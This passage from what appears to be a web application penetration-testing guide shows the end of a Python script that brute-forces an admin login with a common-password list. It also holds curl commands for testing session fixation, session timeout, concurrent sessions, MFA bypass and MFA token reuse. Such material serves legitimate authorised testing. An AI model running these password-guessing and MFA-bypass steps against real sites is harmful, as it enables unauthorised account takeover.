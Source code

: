 ```python
        # Check for account lockout
        if 'account locked' in response.text.lower():
            print("Account lockout detected")
            break

        time.sleep(1)  # Avoid overwhelming the server

    return False

# Common passwords list
common_passwords = [
    'password', '123456', 'password123', 'admin', 'qwerty',
    'letmein', 'welcome', '123456789', 'password1', 'abc123'
]

brute_force_login('https://target.com', 'admin', common_passwords)
```

### 4.3 Session Management Testing

```bash
# Test session fixation
# 1. Get session ID before login
curl -I https://target.com/login
# Note: JSESSIONID=ABC123

# 2. Login with fixed session
curl -X POST https://target.com/login \
  -H "Cookie: JSESSIONID=ABC123" \
  -d "username=admin&password=password"

# 3. Check if session ID changed after login
curl -I https://target.com/dashboard \
  -H "Cookie: JSESSIONID=ABC123"

# Test session timeout
curl -H "Cookie: JSESSIONID=VALID_SESSION" https://target.com/dashboard
# Wait 30+ minutes
curl -H "Cookie: JSESSIONID=VALID_SESSION" https://target.com/dashboard

# Test concurrent sessions
# Login from multiple locations with same credentials
curl -X POST https://target.com/login -d "username=user&password=pass"
# Login again from different IP/browser
curl -X POST https://target.com/login -d "username=user&password=pass" \
  -H "User-Agent: Different-Browser"
```

### 4.4 Multi-Factor Authentication Testing

```bash
# Test MFA bypass attempts
# 1. Normal login to trigger MFA
curl -X POST https://target.com/login \
  -d "username=user&password=validpass"

# 2. Try to access protected resources without MFA
curl -H "Cookie: session=partial_auth" https://target.com/dashboard

# 3. Test MFA token reuse
curl -X POST https://target.com/verify-mfa \
  -H "Cookie: session=partial_auth" \
  -d "mfa_token=123456"

```